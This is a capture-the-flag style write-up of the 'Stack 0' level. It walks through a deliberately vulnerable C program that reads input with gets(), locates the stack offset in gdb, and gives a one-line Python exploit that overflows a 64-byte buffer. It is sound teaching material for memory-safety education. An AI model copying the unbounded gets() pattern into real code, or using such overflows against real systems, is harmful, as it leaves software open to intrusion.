 ```yaml
---
title: Stack 0
sidebar_position: 1
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


> This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

## Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```
- As we can see a `modified` variable is initialized which has the qualifier `volatile` is created. The `volatile` qualifier tells the compiler to not optimize the usage of the variable as it can be changed at any time. 
- Afterwards, a buffer of 64 bytes is created.
- The variable is later initialized to `0`.
- The `gets` system call is used to read user input into the buffer. This syscall is infamous for it's bugs. 
- Let's look at the manual page.
```
 BUGS     

       Never use gets(). Because it is impossible to tell without
       knowing the data in advance how many characters gets() will read,
       and because gets() will continue to store characters past the end
       of the buffer, it is extremely dangerous to use. It has been
       used to break computer security. 
```
- So the `gets` syscall stores characters past the end of the buffer. This essentially breaks the limit set on the buffer which means we can input more than 64 bytes.
- This is the vulnerability that we have to exploit.
- But before that let's go through the rest of the code. 
- There is an `if` statement which checks if the value of `modified` in not equal to zero. If it is not equal to 0, it prints out a string `else` it prompts us to try again.
- We have to overwrite the `modified` variable using a buffer overflow. For that we have have to know where the `modified` variable is located.
- Let's disassemble the program in `gdb`.
```
(gdb) disassemble main
Dump of assembler code for function main:
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave
0x08048434 <main+64>:   ret
```
- Look at the instruction at `main+9`.
```
--snip--;
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
--snip--;
```
- We can see that the variable is located at `esp+0x5c` and is set to zero using dereferencing.
- Next, we want to locate the buffer.
```
--snip--;
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
--snip--;
```
- In 32-bit assembly the arguments for a `call` are stored onto the `stack`.
- In our program the `gets` syscall takes the location of the buffer as argument. This buffer is located at `esp+0x1c`.
- The distance between the location of the `modified` variable and the buffer is the following:
```
(gdb) p/d 0x5c - 0x1c
$1 = 64
```
- The variable is located right where the buffer ends.
- Therefore we need 65 bytes in total, 64 bytes to fill the buffer and 1 byte to overwrite the `modified` variable. 
```
$ ./stack0
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaB
you have changed the 'modified' variable
```
- We can use `python` to craft the exploit.

## Exploit
```
$ python -c 'print "a"*(64)+"B"' | ./stack0
you have changed the 'modified' variable
```
